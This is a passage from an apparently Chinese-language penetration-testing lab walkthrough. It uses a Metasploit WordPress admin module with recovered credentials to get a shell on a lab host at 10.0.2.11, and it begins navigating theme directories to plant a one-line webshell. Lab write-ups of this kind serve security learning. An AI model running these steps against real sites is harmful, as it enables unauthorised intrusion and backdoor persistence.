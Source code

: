 ```
search wordpress admin
```

![image-20211117144658121](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117144658121.png)

![image-20211117145600950](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117145600950.png)



```
use 2
```

```
show options
```

```
set PASSWORD adam14
```

```
set RHOSTS 10.0.2.11
```

```
set TARGETURI /wordpress
```

```
set USERNAME admin
```

![image-20211117145845194](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117145845194.png)

```
run
```

![image-20211117150025521](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117150025521.png)

缺点：有些命令不能成功显示

#### 5.3再次尝试在“主题”插入一句话木马

回顾之前在Web页面插入一句话木马修改404.php模板失败，那在现已经获得命令行shell的前提下，是否可以尝试手动的添加一句话？

```
cd wp-content
```

```
cd themes
```

```
ls
```

![image-20211117150443652](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211117150443652.png)
